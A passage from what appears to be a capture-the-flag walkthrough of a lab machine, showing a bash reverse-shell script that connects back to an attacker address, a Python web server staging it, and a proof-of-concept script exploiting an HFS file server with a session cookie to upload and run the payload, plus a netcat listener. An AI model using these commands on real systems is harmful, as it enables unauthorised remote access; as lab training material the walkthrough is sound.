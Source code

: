 Now let's create a reverse shell on the victim machine that has internal IP `172.17.0.1` 🔻

```bash
matrioshka@matrioshka:~$ echo '#!/bin/bash' > /tmp/reverse_shell.sh
matrioshka@matrioshka:~$ echo 'bash -i >& /dev/tcp/10.0.2.15/2222 0>&1' >> /tmp/reverse_shell.sh
matrioshka@matrioshka:~$ ls -al /tmp/reverse_shell.sh 
-rw-r--r-- 1 matrioshka matrioshka 52 Aug 10 01:16 /tmp/reverse_shell.sh
matrioshka@matrioshka:~$ 
```
{: .nolineno }

Next start the python http.server on port 8888 on IP `172.17.0.1` 🔻

```bash
matrioshka@matrioshka:/tmp$ python3 -m http.server 8888 --bind 172.17.0.1&
[2] 6114
Serving HTTP on 172.17.0.1 port 8888 (http://172.17.0.1:8888/) ...

```
{: .nolineno }

Also start the listener on attacker machine on port 2222 and now run this script 🔻

```bash
└─$ python3 poc_user_admin.py 
Url: http://127.0.0.1:9090/
Cookie: hfs_http=eyJ1c2VybmFtZSI6ImFkbWluIiwiaXAiOiIxNzIuMTkuMC4xIiwiX2V4cGlyZSI6MTc1NDg4OTc3ODE5MywiX21heEFnZSI6ODY0MDAwMDB9; hfs_http.sig=MJ-fAvVMa0aYkfxs-b7sDD7q3Zc
Ip: 10.0.2.15
Port: 2222
Step 1 add vfs
Step 2 set permission vfs
Step 3 Transfering reverse_shell.sh file into the victom /tmp directory 
Step 4 execute payload
---------------- Reverse Shell is upload, Now its time to load it--------------------

Now : Start listener on your attacker machine
On your attacker machine (10.0.2.15), start a listener for the reverse shell:
Command: nc -lvnp 2222
This will listen for incoming connections on port 2222
Press Enter to load this reverse_shell file.  ENTER 
Step 5 add vfs
Step 6 set permission vfs
Step 7 Executing Reverse Shell file on IP 10.0.2.15 and port 2222
Step 8 execute payload
```
{: .nolineno }

![](Pasted%20image%2020250810110021.png)
_Script execution steps_

---

## 🔟 Root Access
